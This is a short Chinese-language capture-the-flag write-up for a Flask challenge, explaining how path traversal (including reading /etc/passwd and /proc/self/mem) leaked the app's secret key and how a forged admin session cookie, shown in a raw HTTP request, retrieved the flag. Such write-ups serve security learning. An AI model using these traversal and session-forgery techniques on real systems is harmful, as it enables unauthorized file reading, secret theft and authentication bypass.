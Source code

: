# Catcat-new

> python3 flask session + 任意文件读取

## 思路分析

> 打开网站后,有四张图片,第1步翻看网站源码,无果,扫目录发现存在admin路径,直接访问提示nonono,点击下面的文字,会跳转,info?file=ForestCat.txt,貌似任意文件读取,info?file=../../../../../../etc/passwd,读取成功,说明存在文件读取漏洞,想直接读取flag,试了好久,都失败了,尝试读取proc/self信息,得到信息较少,然后百度类似题目,尝试/info?file=../app.py,读取成功,格式化代码后发现存在cat文件,读取得到cat.py,分析代码得要想得到flag,得在cookie里设置特定的session才行,即admin=1.设置session的SECRET_KEY是随机生成的32位字符,爆破是不可能的,爆破就是36的32次方,继续百度,发现可以读取/proc/self/maps和/proc/self/maps和/proc/self/mem去找到key.然后用https://github.com/noraj/flask-session-cookie-manager去解码请求admin路径时返回的cookie,修改admin的值,编码,请求admin路径时加入cookie,得到flag

## payload

```
GET /admin HTTP/1.1
Host: 61.147.171.105:63286
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=eyJhZG1pbiI6MX0.Y8famQ.klBbPAlwFFtSSJkE3ckR1nqkGFI;
Connection: close
``` 

## flag

> catctf{Catch_the_c4t_HaHa}